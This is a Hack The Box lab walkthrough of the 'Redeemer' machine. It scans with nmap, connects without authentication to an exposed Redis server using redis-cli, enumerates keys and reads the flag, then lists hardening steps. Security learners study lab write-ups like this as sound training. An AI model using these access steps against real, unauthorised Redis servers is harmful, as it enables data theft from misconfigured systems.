



# Redeemer — HTB Walkthrough

**Status:** Completed  
**Difficulty:** Very Easy  
**OS:** Linux

## TL;DR
Discover Redis in-memory database server, connect using redis-cli, enumerate keys, retrieve flag from database.

## Target / Access
**Target IP:** `<redacted>`  
> Note: IP addresses have been redacted per HTB publishing guidelines.

---

## Enumeration

### Step 1: Port Scanning with Nmap

**Command:**
```bash
nmap -sV -p- <redacted-ip>
```

**Raw Log:** [nmap-scan.txt](raw-logs/document.pdf) (Pages 3-4)

**Output Excerpt:**
```
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store
```

**Analysis:** Redis database service running on default port 6379.








---

## Foothold / Initial Access

### Step 2: Redis Connection

**Command:**
```bash
redis-cli -h <redacted-ip>
```

**Raw Log:** [redis-connection.txt](raw-logs/document.pdf) (Pages 5-6)

**Output:**
```
<redacted-ip>:6379>
```

**Analysis:** Successfully connected to Redis server without authentication.


### Step 3: Database Enumeration

**Commands:**
```bash
<redacted-ip>:6379> INFO
<redacted-ip>:6379> SELECT 0
<redacted-ip>:6379> KEYS *
```

**Raw Log:** [redis-enumeration.txt](raw-logs/document.pdf) (Pages 7-8)

**Output Excerpt:**
```
1) "flag"
2) "temp"
```

**Analysis:** Database contains keys including "flag".


### Step 4: Flag Retrieval

**Commands:**
```bash
<redacted-ip>:6379> GET flag
```

**Raw Log:** [flag-retrieval.txt](raw-logs/document.pdf) (Pages 9-10)

**Output:** Flag value successfully retrieved.


---

## Summary

This Starting Point machine demonstrates Redis database enumeration and unauthenticated access exploitation.

### Attack Chain
1. **Port Scanning** — Discovered Redis on port 6379
2. **Unauthenticated Connection** — Connected via redis-cli without credentials
3. **Database Enumeration** — Listed available keys
4. **Data Extraction** — Retrieved flag using GET command

### Tools Used
- Nmap — Port scanning and service detection
- redis-cli — Redis command-line interface client

---

## Cleanup / Notes / References

### Mitigation Recommendations
1. **Enable Authentication:** Configure requirepass in redis.conf to require password authentication.
2. **Bind to Localhost:** Bind Redis to 127.0.0.1 to prevent external access.
3. **Firewall Rules:** Use firewall to restrict Redis access to trusted IPs only.
4. **Disable Dangerous Commands:** Use rename-command to disable commands like FLUSHDB, FLUSHALL, KEYS, CONFIG.
5. **Use TLS:** Enable TLS encryption for Redis connections.
6. **Regular Updates:** Keep Redis updated to latest stable version.

### References
- [Redis Security Documentation](https://redis.io/topics/security)
- [OWASP: Insufficient Authentication](https://owasp.org/www-community/Insufficient_Authentication)
- [Redis Configuration Best Practices](https://redis.io/topics/config)

---

## Security Summary

**Redactions Performed:**
- IP addresses replaced with `<redacted>` or `<redacted-ip>`
- No authentication was required (misconfiguration)

**⚠️ Warning:** Review and redact any sensitive information (credentials, private IPs, tokens) before publishing.
